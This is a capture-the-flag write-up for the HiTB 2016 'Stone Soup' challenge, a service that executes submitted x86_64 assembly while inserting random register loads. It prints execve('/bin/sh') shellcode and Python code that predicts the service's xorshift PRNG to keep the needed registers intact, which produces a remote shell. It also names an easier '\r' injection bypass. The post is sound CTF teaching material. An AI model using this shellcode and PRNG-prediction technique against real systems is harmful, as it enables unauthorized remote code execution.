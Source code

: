 Title: bin100 - Stone Soup
Author: doskop
Date: 2016-05-29 11:12
Tags: CTF

## Introduction

This is a write-up for the bin100 challenge of the HiTB 2016 CTF.

>Nowadays in the times of cyber warfare it is important that code provided by
> attackers is executed in a safe way. Our shellcode prevention technology, dubbed
> "stone soup", has provided us with years of sekjurity.
> You'll find this service to be running on 145.111.225.50:33533.
>
> Source code for this service is available [here]({filename}/downloads/hitb-2016-ctf/bin100/bfefa7a53e0ff7dd91242adb8edc2315_stone_soup.py).

## Analysis

The program allows you to feed it assembler instructions for the x86\_64 architecture. It starts out by settings all registers (except for `RSP`) to a random values. It then adds your instructions but adds 8 register loads for random registers using random values after each statement where statements are separated by ; or \\n. Finally it assembles the program using keystone engine and executes it.

There are a couple of ways to solve this one: The easy ways would be to find a way to manipulate the program to allow chaining assembler instructions without it noticing (hint: try `\r` instead of `\n`) or tricking keystone engine into ignoring the register loads. The hard way would be to find a solution where the register loads don't matter. Needless to say, I took the hard path.

## Exploitation

First, let's create some shellcode using intel syntax (the default for keystone-engine) that defers loading the registers as long as possible and in a way where we can easily change their order:

    :::nasm
    sub rsp, 8
    mov qword ptr [rsp], 1852400175
    mov qword ptr [rsp + 4], 6845231
    push 0
    push 0
    push rsp
    add dword ptr [rsp], 16
    push rsp
    push rsp
    add dword ptr [rsp], 32
    mov rax, 59
    xor rdx, rdx
    mov rsi, qword ptr [rsp + 8]
    mov rdi, qword ptr [rsp]
    syscall

This basically pushes `/bin/sh` to the stack, creates an array structure on the stack call calls the `execve` syscall like this: `syscall_execve('/bin/sh\0', ['/bin/sh', 0], 0)`.

Since the random number generator is very predictable and generates the same sequence on every run, let's find a state where the registers we need aren't destroyed.

We start by lifting the prng from the challenge:

	:::python
    def xs128p(state0, state1):
        # https://blog.securityevaluators.com/hacking-the-javascript-lottery-80cc437e3b7f
        s1 = state0 & ((1 << 64) - 1)
        s0 = state1 & ((1 << 64) - 1)

        s1 ^= (s1 << 23) & ((1 << 64) - 1)
        s1 ^= (s1 >> 17) & ((1 << 64) - 1)
        s1 ^= s0 & ((1 << 64) - 1)
        s1 ^= (s0 >> 26) & ((1 << 64) - 1)

        state0 = state1 & ((1 << 64) - 1)
        state1 = s1 & ((1 << 64) - 1)

        generated = (state0 + state1) & ((1 << 64) - 1)
        return state0, state1, generated

    def prng():
        state0, state1 = struct.unpack("QQ", "HACKINTHEBOX2016")
        while True:
            state0, state1, value = xs128p(state0, state1)
            yield value

And create a function that tries to find a state in the random generator where a given set of registers isn't destroyed before the next instruction (not only do the registers have to survive all 4 registers loads, it also needs to get to the syscall with the registers intact):

	:::python
    def find_solution(save_regs):
    	# Initialise the PRNG and set the initial state
        p = prng()
        for x in xrange(15):
            next(p)
        
        # Here we keep track of which registers we've saved so far.
        saved_regs = []
        
        for i in itertools.count(1):
        	# Create a list of registers that are destroyed in this round:
            destroyed = []
            for x in xrange(8):
                destroyed.append(regs[next(p) % 15])
                next(p)
            
            # Check if we're destroying any of the registers we've saved so far:
            if set(destroyed) & set(saved_regs):
                saved_regs = []
                continue
            
            # Are we done yet?
            if len(saved_regs) == len(save_regs):
                print saved_regs, 'after', i
                break
            
            # Pick the next register we will try to save:
            want_reg = save_regs[len(saved_regs)]
            saved_regs.append(want_reg)

Now, we run this for every permutation of the registers we want to save (`rax`, `rdx`, `rdi` and `rsi`):

	:::python
    for save_regs in itertools.permutations(['rdx', 'rax', 'rdi', 'rsi']):
	    find_solution(save_regs)

You can find the full script [here]({filename}/downloads/hitb-2016-ctf/bin100/find_shortest_path.py).

This gives us a number of solutions, the shortest being:

	['rsi', 'rdi', 'rdx', 'rax'] after 67

This tells use that the register loads in the order `rsi`, `rdi`, `rdx`, `rax` should finish on line 67 of the assembler script and the syscall should be on line 68. Applying this knowledge to the original shellcode gives us [this]({filename}/downloads/hitb-2016-ctf/bin100/shellcode_input.asm). If you were to feed this to the service you end up with [this]({filename}/downloads/hitb-2016-ctf/bin100/shellcode_output.asm). Lo and behold, our registers remain intact.

Send the to the service and you'll get a remote shell.
